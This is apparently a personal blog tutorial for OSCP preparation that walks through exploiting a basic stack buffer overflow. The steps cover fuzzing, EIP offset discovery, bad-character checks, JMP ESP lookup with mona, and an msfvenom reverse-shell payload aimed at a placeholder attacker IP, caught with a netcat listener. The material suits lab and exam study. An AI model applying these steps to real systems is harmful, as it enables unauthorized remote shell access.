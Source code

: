 ```yaml
---
title:  "Basic Buffer Overflows"
header: "Basic Buffer Overflows"
categories: 
  - Tutorial
tags:
  - Hacking
---
```


A lot can be said about buffer overflows and they are perhaps the most daunting part of attempting the OSCP for most. However, as you&#39;ll find in most of your offensive hacking endeavors, it&#39;s all about experimentation and tweaking your process. Below are the notes I used to successfully exploit several applications (given they didn&#39;t have standard security such as ASLR or DEP) and serves as a good example of understanding a basic buffer overflow.

**Fuzz the application**

If you don&#39;t have access to the code and there aren&#39;t any publicly disclosed exploits then another viable option is to fuzz the application and see what happens. Fuzzing is essentially the act of sending malformed or unintended data to an application and watching to see if it behaves abnormally such as crashing. Keep in mind that just because you cause an application to crash doesn&#39;t necessarily mean that it&#39;s vulnerable but it should key you into paying closer attention to it.

- Run the application
- Attach the debugger ([Immunity Debugger](https://www.immunityinc.com/products/debugger/) is a good option) to the application
- Run your fuzzer
- Write a script to replicate the crash (this is where you&#39;ll set the size of the buffer)

**Find out which part of the buffer overwrites EIP**

So you'll need to know a few key pieces of controlling EIP

The EIP (Extended Instruction Pointer) register controls the execution flow of the application. Think of it as a steering wheel of a car, you can direct it where to go.

The ESP (Extended Stack Pointer) is an indirect memory operand pointing to the top of the stack. This is the point where the instructions that use the stack, actually use it.

Here are a view of these values in Immunity
![EIP & ESP Example](/asssets/images/eip_esp_example.jpg)

There are two basic tactics when attempting at controlling the EIP
Binary Tree Analysis (manual way) - essentially you split the buffer in a series of same characterws until you notice the EIP getting over-written
Example: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCCCCDDDDDDDDDD

Unique String (automated way) - send a unique string so you can see which 4 bytes are written in the EIP.
Example: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4

Naturally you are going to want to use the Unique String Method whenever possible as it can cut down on discovery time and possibly lead to fewer mistakes.

- Create a unique string that's the size of your buffer (pattern\_create.rb is great for this, comes with Kali!)
  - Usage: `pattern\_create.rb 2200` <-- size of your buffer
- Place the output inside your script
- Run script and locate EIP's bytes
![EIP](/asssets/images/eip.jpg)
- Use pattern\_offset.rb to find the position from your pattern\_create script
  - Usage: `pattern-offset.rb 13731415` <--EIP value from crash
- It should return your location (something like 1403). This means that on the 1404th byte is where you can direct EIP. A good way to test this is to send a certain amount of A&#39;s, B&#39;s, and C&#39;s to see where the values are located
  - Example: buffer = &quot;A&quot;\*1403 + &quot;B&quot;\*4 + &quot;C&quot;\*793 &lt;----the last part is to fulfill the orginial 2200 buffer

**(Optional) Increase the buffer size to allow room for shellcode**

The average size for shellcode is around 350-400 so you&#39;ll need to have roughly that much space left in the buffer. If you don&#39;t have enough then it&#39;s a good idea to increase the padding on your buffer either before or after the EIP director bytes.

**Discover bad characters**

To me this can be the most frustrating part of the process and often where people slip up. It&#39;s not so much that it&#39;s difficult but rather just tedious and attention to detail can go a long way. The purpose in discovering bad characters is to ensure that our shellcode doesn&#39;t get modified (truncated, character replaced, terminated). Null values and carriage returns are notoriously bad characters.

- Place the below character listing in your fuzzer
- Run the fuzzer
- Look at memory location of ESP
- Discover where the increments are broken and/or malformed
- Remove the character from the buffer and continue until you&#39;ve completed them all

**Redirect EIP**

When the application starts each time you&#39;ll notice that your pointers are at different locations. To ensure that we always hit our shellcode, we&#39;ll need a solid/static location with each restart. There are a couple of requirements in this instance (this is just a basic example). Needs to be readable and executable and can&#39;t have DEP or ASLR enabled. A good place to look is any accompanying DLL&#39;s with the application. A good tool to help discover potential modules is mona.py, which once again comes with Kali.

- Once you&#39;ve found a solid module, you&#39;ll want to search for JMP ESP&#39;s within immunity
  - Search &gt; Sequence of Commands &gt; &quot;push esp (next line) retn&quot;
  - Search for jmp esp in the whole DLL
  - If you can&#39;t find one then the nasm\_shell command is FFE4 and you should search for that using mona.py
    - Usage: `!mona find –s "\xff\xe4" –m <vulnerable module>`  
  - Test and place the location within your fuzzer

**Generate Shellcode**

Your shell code can be just about anything malicious that you want to do on the asset, but its typically used for returning a shell (but don&#39;t forget about other options like adding users, altering data, etc.,.). A basic tool to help with generating shellcode is msfvenom which is part of the Metasploit framework.

- In our example we&#39;re going to use a reverse shell and encode it with shikata\_ga\_nai (I highly recommend to explore some of the other encoders as they may be the only options with your bad characters combination)
  - Usage:  `msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT NUMBER> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "<BAD CHARACTERS>`  
- Make note of the size of your shellcode as you&#39;ll need to account for it and ensure that you have the proper space
- Within your fuzzer, place a few NOP&#39;s (\x90) before the shellcode to ensure it has enough room to decode and it won&#39;t trip over itself

**Exploit**

You&#39;re ready to fire off your exploit! I recommend setting a breakpoint at the JMP ESP address to verify if the shellcode gets executed

- Set up a listener on the port number that you chose
  - Usage: `nc –lvp <PORT NUMBER>`  
- Fire off your script and if everything works right you should be presented with a reverse shell from your target

